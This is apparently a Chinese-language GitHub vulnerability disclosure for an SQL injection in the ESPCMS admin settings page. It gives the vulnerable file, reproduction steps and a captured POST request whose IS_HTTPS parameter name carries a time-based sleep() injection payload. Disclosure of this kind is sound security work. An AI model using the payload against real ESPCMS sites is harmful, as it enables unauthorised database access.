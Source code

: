 espcmsSQL注入漏洞
https://www.ecisp.cn/html/cn/download_espcms/


phpstudy安装
代码审计
espcms_admin/control/SettingMain.php
在更新网站配置时，key和value的值是直接拼接进去的，因此存在SQL注入漏洞
![1](https://github.com/Appeal-specific/espcmsSQL-/blob/main/1.png)

漏洞复现
安装成功后进入网站后台
点击设置->系统设置->确定保存
![2](https://github.com/Appeal-specific/espcmsSQL-/blob/main/2.png)
并抓包，数据包如下

POST /espcms_admin/index.php?act=FuNYwqPAgpSXj4m5d2npHEownomPfTf6l4%2BJuXdp6Rxja3m%2FkIeu1g%3D%3D HTTP/1.1
Host: 192.168.1.101
Content-Length: 518
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie:espcms_admin_user_info=D30R5LB5F3tzA96zEfkI6K7agHgeLvgeUCjwWtnFKKTTijDU563rtvbF2%2BZPKt2AFV%2FSBefbEwhwz2Y4v8O0d%2BdSQVPrIuV5fe5dP91YUivEt6JhJx2lVtgz01pzBwvJiXfG1EXATRSNiOProF6Mh2%2BJcTXlrQLBPE42ycga1aPOVdHT7xyMJZSrp%2BGetH8CZ7pyHUpFWROqoCt5hHO7xM48Ebz3UEVruMjbJJLUxFFsmWoMFL%2BdMJJlmOFXe%2BPZS5r5Pja02zjNFbgcjakujmffPpqYlJW6HJe0U1xNfGJm6SjW%2BhaseaBLNIfVLDpuTqJPkgKcVePiqoUBqATOVWskGbjhbduHQfNOtLFwurCZa7SxuSlT6UJIDyQr9hM1DgJnDcrZn57WF43ah3ACdbmk4G5o5uK%2BeIkF5IGBgDmNGt0n35hr6qqgK3mEc7vE%2FRhR1PSyNGBSnjg5c6Yd3MY7MGREbfve; 
Connection: close

token_key=&token_name=&config_name=%E5%9F%BA%E6%9C%AC%E5%8F%82%E6%95%B0%E8%AE%BE%E7%BD%AE&SITENAME=123456&WEB_ICON_16=upfile%2Fespcms_16.png&WEB_ICON_32=upfile%2Fespcms_32.png&WEB_ICON_64=upfile%2Fespcms_64.png&IS_CLOSE=0&CLOSE_CONTENT=&ADMINE_MAIL=123%40qq.com&IS_LOG=1&IS_GZIP=1&DEFAULT_LNG=cn&IS_ALONELNG=1&HOME_LNG=cn&IS_HTML=1&IS_REWRITE=0&ENTRANCE_FILE=index&IS_HTMLDIR=1&FILE_HTMLDIR=html%2F&IS_GETCACHE=1&IS_CACHING=1&CACHE_TIME=3600&HTTP_PATHTYPE=1&TIP_SEARCHTIME=30&IS_HTTPS'and/**/(sleep(3))and'1'%3d'1=http

修改请求体中的IS_HTTPS为IS_HTTPS'and/**/(sleep(2))and'1'%3d'1
![3](https://github.com/Appeal-specific/espcmsSQL-/blob/main/3.png)
![4](https://github.com/Appeal-specific/espcmsSQL-/blob/main/4.png)

Sleep()函数成功执行，因此存在SQL注入漏洞
